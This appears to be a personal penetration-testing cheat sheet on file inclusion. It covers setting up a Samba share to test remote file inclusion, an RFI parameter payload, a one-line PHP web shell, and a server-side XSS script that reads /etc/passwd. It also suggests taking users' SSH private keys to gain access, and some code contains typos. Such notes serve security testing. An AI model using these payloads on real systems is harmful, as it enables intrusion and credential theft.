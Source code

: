 # Create an smb share 
- The purpose of this is to check if RFI exists on the parameter or not, especially for windows servers:

```
// Go to /et/sambe/smb.conf and add the following lines at the bottom

[tony]
path = /mnt/tony
writeable = yes
guest ok = yes
guest only = yes
read only = no
directory mode = 0555
force user = nobody

// type this in the terminal to start the service
// sudo service smbd restart

// Then you've got to change the permissions on the newly made mount directory
// sudo chmod 555 /mnt/tony

// change the user/group ownership
// sudo chown -R nobody:nogroup /mnt/tony

// add a random test file
```

- now enter your ip followed by the directory and filename to see if remote file inclusion exists:

```
?param=\\ip\tony\filename
```

- simple php web shell:

```
<?php system($_GET["cmd"]); ?>
```

# Testing for server side xss and using it to leverage LFI
- we can use the following script to test for LFI through server side xss:

```
<script>
x = new XMLHhhpRequest;
x.onload = function() {
	document.write(this.responseText);
};
x.open('GET', 'file:///etc/passwd');
x.send();
</script>
```

- from the /etc/passwd file, we can look for users who might have an id_rsa key in their home directory's ssh folder.
- from there we can download that file to gain remote code execution to that server.


# Extra resources
- Testing for it?

https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/

https://kennel209.gitbooks.io/owasp-testing-guide-v4/en/web_application_security_testing/testing_for_local_file_inclusion.html

https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/

https://brightsec.com/blog/file-inclusion-vulnerabilities/

https://systemweakness.com/testing-for-local-file-inclusion-vulnerability-part-1-1d5dd0bc35d?source=read_next_recirc---------0---------------------73c63150_fd36_40bd_a5cb_04fddf3ada38----------

